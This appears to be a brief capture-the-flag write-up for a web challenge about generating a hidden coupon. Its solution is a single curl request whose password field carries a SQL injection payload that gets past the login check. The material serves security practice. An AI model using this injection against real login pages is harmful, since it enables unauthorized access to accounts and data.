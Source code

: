 # [500 pts] Chasing The Flag!
# Description
Hi! This contest might be over, but if you could generate the coupon. You might could get discount from a hidden course in this web!

(ﾉ◕ヮ◕)ﾉ*:･ﾟ✧

http://103.152.242.242:50234/

Author: Hori75

```bash
curl 'http://103.152.242.242:50234/checkcred.php' \
  -H 'Connection: keep-alive' \
  -H 'Accept: */*' \
  -H 'X-Requested-With: XMLHttpRequest' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'Origin: http://103.152.242.242:50234' \
  -H 'Referer: http://103.152.242.242:50234/generatecode.php' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw $'username=aebeceh&password=\'+or+true+%23--' \
  --compressed \
  --insecure
```